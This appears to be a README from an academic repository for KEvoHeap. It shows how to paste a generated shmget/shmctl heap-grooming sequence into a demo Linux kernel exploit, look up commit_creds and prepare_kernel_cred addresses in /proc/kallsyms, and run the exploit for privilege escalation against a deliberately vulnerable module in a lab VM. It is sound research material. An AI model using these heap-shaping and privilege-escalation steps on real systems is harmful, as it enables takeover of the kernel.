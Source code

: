 # Example Exploit

The demo exploit `./exploit/demo_exploit_with_noise.c` performs heap layout manipulation to shape the heap into an exploitable state. It uses the `shmget/shmctl` system calls to allocate objects in the kmalloc-256 cache. These calls trigger (de)allocations of `struct shmid_kernel` objects, which are of appropriate size. A suiting series of allocations and deallocations can be found with KEvoHeap. To do this, follow the steps under "Run KEvoHeap+QEMU+BPFTrace" in [RUNNING_KEVOHEAP.md](https://github.com/fkie-cad/Algorithmic-Heap-Layout-Manipulation-in-the-Linux-Kernel/blob/main/RUNNING_KEVOHEAP.md). 

KEvoHeap will generate candidates consisting of calls to the kernel module and `shmget/shmctl`, which will then be inserted into a general corpus programm which takes care of setup and teardown (cf. [/hlm.template](https://github.com/fkie-cad/Algorithmic-Heap-Layout-Manipulation-in-the-Linux-Kernel/blob/main/hlm.template)). The generated candidates are then build and executed in the QEMU VM. The distance of the target objects gets extracted via `bpftrace` and fed back to KEvoHeap. When a correct sequence has been found, it can be used in an exploit to perform the neccessary allocations to place both target objects next to each other. For testing, you can use one of the demo exploits and replace the existing allocation directives with the sequence found by KEvoHeap.

For simplicity's sake, the exploit assumes that SMEP, SMAP and KPTI are disabled. This is the case in the VM that you setup in the instructions in [RUNNING_KEVOHEAP.md](https://github.com/fkie-cad/Algorithmic-Heap-Layout-Manipulation-in-the-Linux-Kernel/blob/main/RUNNING_KEVOHEAP.d)

### Use result from KEvoHeap

A result from KEvoHeap could look like this:
```bash
$./bpf_evo_runner.sh
[*] Starting try number 1
...
Ping...
Ping...
Ping...
Ping...
...
Ping...
Ping...
Ping...
Ping...
Going into next gen after 72 tries
[!] Found solution!
int fengshui318 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui573 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui956 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui628 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui230 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui1249 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui569 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui1518 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui984 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui956, IPC_RMID, NULL);
shmctl(fengshui984, IPC_RMID, NULL);
shmctl(fengshui569, IPC_RMID, NULL);
shmctl(fengshui230, IPC_RMID, NULL);
sleep(1);
int fengshui370 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui318, IPC_RMID, NULL);
shmctl(fengshui1249, IPC_RMID, NULL);
sleep(1);
int fengshui1608 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui628, IPC_RMID, NULL);
sleep(1);
int fengshui1319 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui1518, IPC_RMID, NULL);
sleep(1);
int fengshui189 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui573, IPC_RMID, NULL);
shmctl(fengshui1608, IPC_RMID, NULL);
sleep(1);
int fengshui625 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui1319, IPC_RMID, NULL);
shmctl(fengshui189, IPC_RMID, NULL);
sleep(1);
int fengshui1253 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui934 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui625, IPC_RMID, NULL);
shmctl(fengshui370, IPC_RMID, NULL);
shmctl(fengshui934, IPC_RMID, NULL);
shmctl(fengshui1253, IPC_RMID, NULL);
sleep(1);
int fengshui61 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
ioctl(fd, VULN_ALLOC_OVERFLOW);
ioctl(fd, VULN_ALLOC_TARGET);

Fitness: 256
```

This solution can now be used in `demo_exploit_with_noise.c` for the function `do_heap_layout_manipulation(int fd)`. This means we will exchange the given content from `do_heap_layout_manipulation(int fd)` with the result from KEvoHeap:
```bash
$ vim +161 demo_exploit_with_noise.c
...
void do_heap_layout_manipulation(int fd){
    # remove the content and change it to
}
...
void do_heap_layout_manipulation(int fd){
	int fengshui318 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui573 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui956 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui628 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui230 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui1249 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui569 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui1518 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui984 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui956, IPC_RMID, NULL);
	shmctl(fengshui984, IPC_RMID, NULL);
	shmctl(fengshui569, IPC_RMID, NULL);
	shmctl(fengshui230, IPC_RMID, NULL);
	sleep(1);
	int fengshui370 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui318, IPC_RMID, NULL);
	shmctl(fengshui1249, IPC_RMID, NULL);
	sleep(1);
	int fengshui1608 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui628, IPC_RMID, NULL);
	sleep(1);
	int fengshui1319 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui1518, IPC_RMID, NULL);
	sleep(1);
	int fengshui189 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui573, IPC_RMID, NULL);
	shmctl(fengshui1608, IPC_RMID, NULL);
	sleep(1);
	int fengshui625 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui1319, IPC_RMID, NULL);
	shmctl(fengshui189, IPC_RMID, NULL);
	sleep(1);
	int fengshui1253 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui934 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui625, IPC_RMID, NULL);
	shmctl(fengshui370, IPC_RMID, NULL);
	shmctl(fengshui934, IPC_RMID, NULL);
	shmctl(fengshui1253, IPC_RMID, NULL);
	sleep(1);
	int fengshui61 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	ioctl(fd, VULN_ALLOC_OVERFLOW);
	ioctl(fd, VULN_ALLOC_TARGET);
}

```


### Update addresses

The hard coded adresss of `commit_creds` and `prepare_kernel_cred` needs to be updated with the current running kernel as written in the function `escalate_privs(void)`. Normally these addresses should be resolved dynamically (due to a leak) but in this case we want to focus on the heap layout manipulation.

```bash
$ sudo grep "T commit_creds" /proc/kallsyms
ffffffffb16effc0 T commit_creds 
$ sudo grep "T prepare_kernel_cred" /proc/kallsyms
ffffffffb16f0290 T prepare_kernel_cred
```

Next we can update the adresses:
```bash
$ vim +102 demo_exploit_with_noise.c
```

### Run exploit

Now after we updated the results compile the exploit and run it. Assuming that you are working on the VM that was set up for KEvoHeap, you want to make sure to use the user account "MyUser" instead of root.
```bash
$ make noise # Build the exploit
gcc demo_exploit_with_noise.c  -o demo_exploit_with_noise -static
$ cd ..
$ ./scp_to_user.sh ./exploit # Copy the folder to the user directory
$ ./user_ssh.sh # Login to vm as 'MyUser'
$ cd exploit
$ chmod +x demo_exploit_with_noise
$ ./demo_exploit_with_noise
```
